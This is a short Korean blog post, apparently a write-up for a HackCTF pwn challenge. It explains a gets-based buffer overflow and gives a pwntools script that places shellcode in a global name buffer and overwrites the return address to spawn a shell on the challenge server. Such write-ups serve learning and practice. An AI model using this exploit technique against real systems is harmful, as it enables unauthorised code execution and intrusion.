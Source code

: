 ```yaml
---
title: "[ HackCTF ] 내 버퍼가 흘러넘친다!!!"
date: 2023-03-07T12:22:04.284Z
categories: ["Wargame", "HackCTF"]
tags: ["HackCTF","pwn"]

---
```


### **문제 분석**

---

![](/images/50071ced-062c-4b62-ad3a-7283ba190bc4-image.png)

이름을 입력받고 gets로 또 한 번 값을 입력받고 있다.

여기서 입력받는 문자열의 길이를 확인하지 않아 BOF가 발생하게 된다.

<br>
<br>


### **문제 풀이**

---

변수 s는 크기가 작아 쉘코드를 넣을 수 없다.

그러므로 name에 쉘코드를 넣고 BOF를 발생시켜 return address를 name으로 바꿔주면 된다.

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

name = 0x804a060

context.arch = 'i386'
shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = ''
payload += '\x90'*0x14
payload += '\x90'*4
payload += p32(name)

p.sendlineafter('Name : ', shellcode)
p.sendlineafter('input : ', payload)

p.interactive()
```